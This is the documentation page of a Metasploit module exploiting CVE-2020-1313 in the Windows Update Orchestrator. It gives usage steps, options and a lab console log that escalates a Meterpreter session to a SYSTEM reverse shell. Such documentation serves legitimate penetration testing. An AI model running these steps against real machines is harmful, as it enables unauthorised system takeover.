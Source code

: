 ## Vulnerable Application

Windows 10 and Server x64 build versions above 17763  to 19041.

### Introduction

This module abuses CVE-2020-1313, a unchecked API call that allows a
regular user to schedule a job that will run as system.  The API call,
`ScheduleWork`, will create a task in the System Update Orchestrator
automatically scheduled to run at a time when the system is expected
to be idle.  The user cannot request or affect the scheduled time of
execution.  The scheduled job data is stored in
`HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\WindowsUpdate\\Orchestrator\\UScheduler\\x`
Where `x` is a numeric key assigned to the job.

## Verification Steps

  1. Start msfconsole
  2.  use exploit/multi/handler
  3. set payload <payload>
  4. set [r|l]host
  5. run (leave running)
  6. Start msfconsole
  7. use windows/local/cve_2020_1313_system_orchestrator
  8. set session <session>
  9. set payload <payload_matching_above>
  10. set verbose true
  11. Verify The job is scheduled
  12. Leave everything running
  13. Go to bed
  14. Have a healthy Breakfast, maybe some coffee if you want
  15. verify you got a callback as SYSTEM

## Options

  **EXECUTE_DELAY**
  The number of seconds to sleep after uploading the exploit and
  launching it.

  **EXPLOIT_NAME**
  The name of the exploit EXE as it will appear on target
  
  **EXPLOIT_TIMEOUT**
  The maximum time to wait for a response from the exploit binary.

  **PAYLOAD_NAME**
  The name of the payload EXE as it will appear on target

  **WRITABLE_DIR**
  Directory to use for file upload and linking; this should not already
  exist.  This directory will require manual cleanup.

## Scenarios

### Tested on Windows10 x64 Release 1903

```
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 12 opened (192.168.135.197:4567 -> 192.168.132.134:49678) at 2020-09-21 19:05:44 -0500
sessions -i -1
[*] Starting interaction with 12...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-CL5L2IH\msfuser
meterpreter > getsystem
[-] 2001: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 12...
msf exploit(windows/local/cve_2020_1313_system_orchestrator) > show options

Module options (exploit/windows/local/cve_2020_1313_system_orchestrator):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   EXECUTE_DELAY    3                yes       The number of seconds to delay between file upload and exploit launch
   EXPLOIT_NAME                      no        The filename to use for the exploit binary (%RAND% by default).
   EXPLOIT_TIMEOUT  60               yes       The number of seconds to wait for exploit to finish running
   PAYLOAD_NAME                      no        The filename for the payload to be used on the target host (%RAND%.exe by default).
   SESSION          11               yes       The session to run this module on.
   WRITABLE_DIR                      no        Path to write binaries (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.197  yes       The listen address (an interface may be specified)
   LPORT     4568             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf exploit(windows/local/cve_2020_1313_system_orchestrator) > set session 12
session => 12
msf exploit(windows/local/cve_2020_1313_system_orchestrator) > run

[*] Build Number = 18362
[*] Checking Target
[*] Attempting to PrivEsc on DESKTOP-CL5L2IH via session ID: 12
[*] Uploading exploit to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Exploit uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Uploading Payload to DESKTOP-CL5L2IH as C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] Payload (7168 bytes) uploaded on DESKTOP-CL5L2IH to C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[!] This exploit requires manual cleanup of the payload C:\Users\msfuser\AppData\Local\Temp\DZrvSSK.exe
[*] Running Exploit
[*] Exploit Output:
Obtaining reference to IUniversalOrchestrator
Scheduling work with id 47790
Succeeded. You may verify HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate\Orchestrator\UScheduler to see the task has indeed been onboarded. The command itself will be executed overnight if there is no user interaction on the box or after 3 days SLA has passed.
[*] Cleaning up C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[*] C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe already exists on the target. Deleting...
[*] Deleted C:\Users\msfuser\AppData\Local\Temp\IXCDRgFFVCSThK.exe
[+] Payload Scheduled for execution at 2020-09-22 08:53:47 -0500
msf exploit(windows/local/cve_2020_1313_system_orchestrator) > 

[SECONDARY WINDOW FOR CALLBACK]
msf payload(windows/x64/meterpreter/reverse_tcp) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.135.197
lhost => 192.168.135.197
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run -j
msf exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444

msf exploit(multi/handler) > set lport 4568
lport => 4568
msf exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.135.197:4568 
msf exploit(multi/handler) > jobs -l

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4444
  1   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://192.168.135.197:4568

msf exploit(multi/handler) > 
[*] Sending stage (200262 bytes) to 192.168.132.134
[*] Meterpreter session 3 opened (192.168.135.197:4568 -> 192.168.132.134:49681) at 2020-09-21 20:09:45 -0500
msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-CL5L2IH  192.168.135.197:4568 -> 192.168.132.134:49681 (192.168.132.134)

msf exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : DESKTOP-CL5L2IH
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```
